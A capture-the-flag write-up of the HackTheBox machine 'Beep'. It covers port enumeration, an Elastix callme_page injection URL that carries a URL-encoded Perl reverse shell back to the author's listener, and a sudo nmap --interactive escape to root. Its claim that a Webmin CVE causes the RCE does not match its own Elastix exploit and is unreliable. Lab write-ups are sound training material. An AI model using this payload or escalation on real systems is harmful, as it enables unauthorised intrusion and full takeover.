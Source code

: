 ```yaml
---
tags:
  - hack
  - linux
---
```


# HackTheBox: [Beep](https://app.hackthebox.com/machines/Beep)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of Elastix, which I exploited to gain RCE as the `asterisk` user.
> - I escalated privileges by abusing a `sudo` misconfiguration to execute `nmap` interactively, allowing me to spawn a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -F $t                                                        
[...]

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3     Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: LOGIN-DELAY(0) STLS EXPIRE(NEVER) UIDL TOP PIPELINING RESP-CODES APOP AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap     Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed SORT OK IMAP4 MAILBOX-REFERRALS UNSELECT X-NETSCAPE RENAME MULTIAPPEND RIGHTS=kxte LIST-SUBSCRIBED CATENATE ANNOTATEMORE THREAD=ORDEREDSUBJECT CHILDREN IMAP4rev1 IDLE NAMESPACE NO LITERAL+ CONDSTORE QUOTA SORT=MODSEQ LISTEXT STARTTLS THREAD=REFERENCES ACL BINARY ATOMIC URLAUTHA0001 ID UIDPLUS
443/tcp   open  ssl/http Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
|_ssl-date: 2023-10-10T22:34:46+00:00; -6s from scanner time.
|_http-server-header: Apache/2.2.3 (CentOS)
993/tcp   open  ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3     Cyrus pop3d
3306/tcp  open  mysql?
10000/tcp open  http     MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: -6s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 405.81 seconds
```

## Exploit

The version of Webmin is vulnerable to [CVE-2022-36446](https://github.com/emirpolatt/CVE-2022-36446), allowing RCE. ([Exploit](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py).)

The following URL is enough to trigger the exploit and initiate a reverse shell to my listener: <https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication>:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.7] 58299
id
uid=100(asterisk) gid=101(asterisk)
```

## Escalate

`sudo` gives us a lot to work with:

```console
sudo -l    
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"              
                                             
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service  
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper 
```

I choose `nmap`:

```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
cat /root/root.txt
5b5170[...]
```
